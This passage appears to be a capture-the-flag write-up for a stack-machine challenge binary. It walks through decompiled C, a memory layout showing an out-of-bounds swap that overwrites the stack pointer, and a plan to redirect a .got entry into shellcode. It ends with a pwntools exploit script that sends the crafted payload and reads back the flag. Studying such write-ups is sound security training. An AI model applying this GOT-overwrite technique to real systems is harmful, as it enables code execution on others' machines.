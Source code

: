 ```c
      break;
  }
  return result;
}
```

They allow us to add, div, mul, and etc. Not all the commands are required, we will only explains instructions helpful to exploit.

### Level 1

The key part is in `swap`:
```c
unsigned int *swap_()
{
  unsigned int v0; // ST04_4
  unsigned int *result; // rax

  v0 = stack_ptr[machine - 1];
  stack_ptr[machine - 1] = stack_ptr[machine - 2];
  result = stack_ptr;
  stack_ptr[machine - 2] = v0;
  return result;
}
```

If we pass **1** as argument. we can swap `array[0]` and `array[-1]`. Let's see what we will swap:
```
.bss:00000000002020A4 ; unsigned int stack_ptr[1]
.bss:00000000002020A4 stack_ptr       dd ?                    ; DATA XREF: push+2D↑o
.bss:00000000002020A4                                         ; pop+34↑o ...
.bss:00000000002020A8 ; _DWORD stack[1023]
.bss:00000000002020A8 _stack          dd 3FFh dup(?)          ; DATA XREF: store+40↑o
.bss:00000000002020A8                                         ; fetch+34↑o
.bss:00000000002030A4 ; char bss_user_input[1024]
.bss:00000000002030A4 bss_user_input  db 400h dup(?)          ; DATA XREF: fetch_int+28↑o
.bss:00000000002030A4                                         ; fetch_int+5E↑o ...
.bss:00000000002034A4 bss_index       dd ?                    ; DATA XREF: pick_+1C↑r
.bss:00000000002034A4          
```

**stack_ptr** is right before **_stack**. We can control the stack pointer now. Also, although `checksec` indicates the program is **N^X**, the custom kernel will not turn on **N^X**. While the *RELRO* is partial, we can overwrite it to execute shell.

The program cannot be leaked, but the relative addresses are always the same. When *.got* is not initialized, it will point to the *.plt* address, we can add a value to the unresolved *.got* (like `printf`) to move it from *.plt* to *.bss*. Then execute the function to jump to shellcode.
```python
import sys
from pwn import *

p = process('./hypervisor.elf kernel.bin ld.so.2 ./user.elf'.split())

f = open('shellcode')
exploit = f.read()
f.close()

# Change the .got and append shellcode
exploit = "4294967268\\2107670+a\\31337\\31337\\31337\." + exploit
p.sendline(exploit)
p.recvuntil('hitcon')
flag = p.recvall()

print flag
```
